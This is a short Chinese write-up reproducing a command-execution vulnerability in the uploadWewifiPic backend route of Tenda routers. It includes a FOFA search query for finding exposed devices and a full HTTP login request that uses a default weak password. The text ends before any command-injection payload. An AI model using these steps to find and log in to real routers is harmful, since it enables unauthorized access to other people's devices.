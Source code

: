 
# Tenda 路由器 uploadWewifiPic后台RCE漏洞复现

### 0x01 产品简介

 腾达[路由器](https://so.csdn.net/so/search?q=%E8%B7%AF%E7%94%B1%E5%99%A8&spm=1001.2101.3001.7020)是一款高效实用的路由器，致力于为家庭用户提供舒适、便捷、自然的智慧家庭体验。简单便捷的部署在家庭中，彻底解决家庭用户的网络接入问题。

### 0x02 漏洞概述

 腾达路由器后台 uploadWewifiPic 路由存在[命令执行漏洞](https://so.csdn.net/so/search?q=%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，攻击者可利用漏洞执行任意命令获取服务器权限。

### 0x03 复现环境

FOFA：app="Tenda-路由器"

### ![](assets/1701746633-59fe628d0e39b972cdbfc9b4eaab5952.png)0x04 漏洞复现 

默认弱口令登录

账号：admin  密码：guest、admin等（base64编码）也可以登录页面直接尝试

```cobol
POST /login/Auth HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 34

username=admin&password=Z3Vlc3Q%3D
```

![](assets/1701746633-9a585cd8023ac2db7003aba13d4ca68c.png)
